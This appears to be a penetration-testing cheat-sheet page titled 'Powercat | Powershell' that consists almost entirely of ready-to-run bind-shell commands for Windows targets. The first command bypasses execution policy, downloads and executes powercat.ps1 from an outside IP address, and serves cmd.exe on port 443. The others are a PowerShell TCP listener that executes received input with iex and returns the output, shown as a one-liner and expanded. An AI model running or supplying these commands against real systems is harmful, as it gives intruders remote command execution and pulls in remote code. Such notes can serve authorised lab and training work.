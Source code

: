 # Powercat \| Powershell

## Powercat

```bash
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.189/powercat.ps1');powercat -l -p 443 -e cmd.exe"
```

{% hint style="danger" %}
Note it may be necessary to press `Enter` a couple times after the connection is established. Otherwise shell may not be sent successfully.
{% endhint %}

## Powershell \(one liner\)

Use a one liner on the TARGET:

```bash
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

Expanded one liner:

```bash
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
$client.Close();
$listener.Stop();
```

